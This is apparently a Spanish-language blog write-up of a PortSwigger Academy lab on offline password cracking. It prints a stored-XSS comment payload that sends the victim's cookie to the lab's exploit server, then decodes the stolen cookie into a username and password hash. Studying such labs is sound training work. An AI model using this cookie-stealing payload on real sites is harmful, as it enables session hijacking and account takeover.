





+++
author = "Alux"
title = "Portswigger Academy Learning Path: Authentication Lab 11"
date = "2021-11-25"
description = "Lab: Offline password cracking"
tags = [
    "broken authentication",
    "portswigger",
    "academy",
    "burpsuite",
    "xss",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Offline password cracking

En este <cite>laboratorio[^1]</cite>la finalidad es ingresar con el usuario `carlos` el cual hay que robar la cookie y luego crackear la contrasena en offline para poder entrar al sistema con el usuario carlos para que al resolver el lab se debe de eliminar el usuario carlos y estara resuelto.

## Reconocimiento

Lo primero que tenemos es que podemos ingresar con el usuario `wiener`, lo primero que notamos es que podemos escribir comentarios en el sistema, y ahi es donde tenemos una idea de que se puede ingresar codigo javascript para aprovecharse por medio de javascript robar una cookie si no se cuenta con el header de `httpOnly`. La forma de ataque es el siguiente:



## Explotacion

En este caso, aprovechando que ya hemos iniciado sesion, colocamos el siguiente comentario, ya que el sistema nos da un exploit server en el cual podemos ver los logs. Lo que comentamso seria el siguiente codigo, que lo que hara es inyectar el codigo javascript que a su vez lo que hara es redirigir a la siguiente web con el valor de la cookie en la url para posteriormente nosotros tomarla.

```javascript
<script>document.location='https://exploit-aca31fc11ef256eac0eb50c801be00df.web-security-academy.net/exploit?c='+document.cookie</script>
```



Luego de que hemos inyectado el codigo debemos quedarnos a la espera de la solicitud de la victima, y en el log estara, en este caso esta `/exploit?c=secret=...` que es el valor de la cookie.



Al notar la cookie que tenemos vamos a decodificar la cookie desde bash:

```bash
echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" | base64 -d
carlos:26323c16d5f4dabff3bb136f2460a943
```
Ahora lo que haremos es descifrar el valor de `26323c16d5f4dabff3bb136f2460a943`



Finalmente, ya que tenemos la contrasena entramos con las credenciales de carlos y eliminamos la cuenta para resolver el lab



Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)